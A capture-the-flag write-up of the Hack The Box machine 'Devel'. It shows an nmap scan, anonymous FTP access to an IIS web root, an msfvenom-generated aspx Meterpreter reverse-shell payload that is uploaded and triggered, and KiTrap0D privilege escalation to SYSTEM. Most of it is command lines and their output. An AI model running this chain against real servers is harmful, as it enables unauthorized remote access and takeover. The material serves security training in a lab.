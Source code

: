 ```yaml
---
layout: post
title: Devel(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.5
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.5
  
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-18 15:47 EST
<br>Nmap scan report for 10.10.10.5
<br>Host is up (0.22s latency).
<br>Not shown: 998 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open  ftp     Microsoft ftpd
<br>| ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br>| 03-18-17  01:06AM                  aspnet_client
<br>| 03-17-17  04:37PM                  689 iisstart.htm
<br>|_03-17-17  04:37PM               184946 welcome.png
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 7.5</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: <font color="53E100">Microsoft-IIS/7.5</font>
<br>|_http-title: IIS7
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 21/tcp)
<br>HOP RTT       ADDRESS
<br>1   283.76 ms 10.10.14.1
<br>2   283.90 ms 10.10.10.5

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.06 seconds</p>
</div>
</font>

Anonymous login in FTP is allowed, which means we can loggin to the FTP server with {_**anonymous**_} as a username and password.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># ftp 10.10.10.5
<br>Connected to 10.10.10.5.
<br>220 Microsoft FTP Service
<br>Name (10.10.10.5:root): anonymous
<br>331 Anonymous access allowed, send identity (e-mail name) as password.
<br>Password:
<br>230 User logged in.
<br>Remote system type is Windows_NT.
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      <font color="53E100">aspnet_client</font>
<br>03-17-17  04:37PM                  689 <font color="53E100">iisstart.htm</font>
<br>03-17-17  04:37PM               184946 <font color="53E100">welcome.png</font>
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p> 
</div>
</font>
Looks like we got the access to the Web-Directory of the server using FTP, So now we will generate our payload using _**msfvenom**_ , As the target server is using IIS 7 so we will need to generate the payload with the extension of (_**.aspx**_).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.*.* LPORT=4455 -b "\x00" -f aspx > teck.aspx
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>Found 10 compatible encoders
<br>Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
<br>x86/shikata_ga_nai succeeded with size 360 (iteration=0)
<br>x86/shikata_ga_nai chosen with final size 360
<br>Payload size: 360 bytes
<br>Final size of aspx file: 2917 bytes
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
Now upload our generated payload into the FTPServer
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="BB69EC">ftp</font>> put teck.aspx 
<br>local: teck.aspx remote: teck.aspx
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>226 Transfer complete.
<br>2954 bytes sent in 0.00 secs (12.4653 MB/s)
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      aspnet_client
<br>03-17-17  04:37PM                  689 iisstart.htm
<br>12-22-17  07:35AM                 2907 <font color="53E100">teck.aspx</font>
<br>03-17-17  04:37PM               184946 welcome.png
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p>
</div>
</font>
The file has been uploaded, now to get the reverse shell first open the multi handler listner in **_MSF_** and then browse the file in browser {**http://10.10.10.5/teck.aspx**}.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="BB69EC">msf</font> > use exploit/multi/handler
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.14
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.5
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.5:49158) at 2017-12-18 17:27:04 -0500

<br><font color="BB69EC">meterpreter</font> > getuid
<br>Server username: <font color="53E100">IIS APPPOOL\Web</font>
<br><font color="BB69EC">meterpreter</font> >run post/windows/manage/migrate

<br><font color="RoyalBlue">[*]</font> Running module against DEVEL
<br><font color="RoyalBlue">[*]</font> Current server process: w3wp.exe (1132)
<br><font color="RoyalBlue">[*]</font> Spawning notepad.exe process to migrate to
<br><font color="53E100">[+]</font> Migrating to 264
<br><font color="53E100">[+]</font> Successfully migrated to process 264
<br><font color="BB69EC">meterpreter</font> > </p>
</div>
</font>
<br>We got the web **_Meterpreter_** session, run the post migrate command or the meterpreter session will be close after 5 min. Now in able to read the flag first we need to _Escalate our Privilege_.
<br>**Privilege Escalation Exploit**:- [Windows SYSTEM Escalation via KiTrap0D](https://www.rapid7.com/db/modules/exploit/windows/local/ms10_015_kitrap0d)
<br>**Vulnerabilty Description**:- This module will create a new session with SYSTEM privileges via the KiTrap0D exploit by Tavis Ormandy. If the session in use is already elevated then the exploit will not run. The module relies on kitrap0d.x86.dll, and is not supported on x64 editions of Windows.

<br>**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > background 
<br><font color="RoyalBlue">[*]</font> Backgrounding session 3...
<br>msf exploit(<font color="red">handler</font>) > use exploit/windows/local/ms10_015_kitrap0d
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set SESSION 3
<br>SESSION => 3
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Launching notepad to host the exploit...
<br><font color="53E100">[+]</font> Process 1376 launched.
<br><font color="RoyalBlue">[*]</font> Reflectively injecting the exploit DLL into 1376...
<br><font color="RoyalBlue">[*]</font> Injecting exploit into 1376 ...
<br><font color="RoyalBlue">[*]</font> Exploit injected. Injecting payload into 1376...
<br><font color="RoyalBlue">[*]</font> Payload injected. Executing exploit...
<br><font color="53E100">[+]</font> Exploit finished, wait for (hopefully privileged) payload execution to complete.
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.5
<br><font color="RoyalBlue">[*]</font> Meterpreter session 4 opened (10.10.*.*:444 -> 10.10.10.5:49158) at 2017-12-18 18:01:20 -0500

<br>meterpreter >getuid
<br>Server username: <font color="53E100">NT AUTHORITY\SYSTEM</font>
<br>meterpreter ></p> 

</div>
</font>

<br>**Flags**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>c:\Users\babis\Desktop>type <font color="53E100">user.txt.txt</font>
<br>type user.txt.txt
<br>********************
<br>c:\Users\Administrator\Desktop>type <font color="53E100">root.txt.txt</font>
<br>type root.txt.txt
<br>********************
<br>c:\Users\Administrator\Desktop></p>  
</div>
</font>

